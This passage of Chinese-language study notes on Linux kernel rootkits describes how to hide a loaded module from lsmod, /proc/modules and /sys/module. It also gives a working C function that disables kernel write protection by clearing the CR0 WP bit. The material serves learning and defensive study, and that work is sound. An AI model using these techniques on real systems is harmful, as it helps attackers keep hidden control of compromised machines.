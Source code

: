 由于后面我们要进行测试，需要`rmmod`，所以最好找一个已加载但没有被使用的模块。我们可以在`lsmod`命令输出中找一个`Used`数为零的模块。后面将以`ac`模块为例。

`ac`模块的路径是`/lib/modules/$(uname -r)/kernel/drivers/acpi/ac.ko`。

- 怎样得知系统内核模块的入口/出口函数名？

一方面，我们可以在`readelf -s ac.ko`中找长得像的；

另一方面，我们可以在相应内核源码中找准确定义：

在`drivers/acpi/ac.c`中搜索`module_init`：

```
module_init(acpi_ac_init);
module_exit(acpi_ac_exit);
```







### 隐藏模块

主要隐藏的目标为：

1. 对lsmod隐藏
2. 对/proc/modules隐藏
3. 对/sys/module隐藏



其中，lsmod是通过读取/proc/modules来发挥作用的，因此我们对/proc/modules进行处理就能解决前面两个目标，另外需要处理/sys/module/下的模块子目录。



/proc/modules的内容是内核利用struct modules结构体的表头去遍历内核模块链表

对于/sys/module下的隐藏需要操纵kobject的fd对象，具体实现请看代码



### 关闭写保护

[CR0寄存器](https://en.wikipedia.org/wiki/Control_register#CR0)

 写保护指的是写入只读内存时出错，可以通过CR0寄存器控制开启与否，修改从0开始的第16个Bit

![image-20191028130225360](Rootkit Learning.assets/image-20191028130225360.png)

可以使用`read_cr0`，`write_cr0`来读取和写入CR0寄存器

```
static inline unsigned long read_cr0(void);
static inline void write_cr0(unsigned long x);
```

```
// ========== WRITE_PROTECTION HELPER ==========
// TODO: Consider race condition on SMP systems.
void
disable_wp(void)
{
    unsigned long cr0;

    preempt_disable();
    cr0 = read_cr0();
    clear_bit(X86_CR0_WP_BIT, &cr0);
    write_cr0(cr0);
    preempt_enable();

    return;
}


```